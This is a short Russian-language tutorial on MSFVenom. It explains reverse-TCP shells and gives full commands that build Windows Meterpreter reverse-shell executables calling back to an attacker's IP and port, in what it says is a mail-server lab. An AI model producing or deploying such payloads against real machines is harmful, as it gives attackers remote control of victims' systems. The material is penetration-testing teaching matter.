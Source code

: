 #### Что такое MSFVenom
MSFVenom — бесплатный инструмент для создания полезной нагрузки (вредоносного файла). Это, так сказать, двоюродный брат Metasploit. С его помощью вы можете создавать различные полезные нагрузки, шелл-код и обратный шелл.
* msfvenom -h => отобразить справку
#### Как использовать MSFVenom:
Reverse TCP (обратное подключение, обратный шелл, пейлоад), — схема взаимодействия с целевым компьютером. Говоря простым языком. Мы создаем вредоносный файл (полезную нагрузку), после запуска которого целевой компьютер будет пытаться подключиться к нашему компьютеру. Это называется «бэкконнект» или в нашем случае обратный шелл, потому что «бэкконнект» — это понятие растяжимое.
Чтобы узнать, какие полезные нагрузки доступны введите команду:
* msfvenom -l payloads
#### Следующая команда создаст вредоносный исполняемый файл (обратный шелл), после запуска которого откроется сеанс Meterpreter.
* LHOST — IP-адрес вашего компьютера (атакующего).
* LPORT — порт вашего компьютера, который назначен серверу или программе.
* P — сокращение от «payload», полезная нагрузка для выбранной платформы.
* F — параметр, который задает тип файла, например, exe для Windows.
* msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.13 LPORT=4444 -f exe -a x64 -o /home/infosecaddicts/infoecaddicts.exe
* msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.56.102(наш ip) lport=25(smtp порт, тк лаба почтовая и он открыт))) -f exe > /root/example.exe


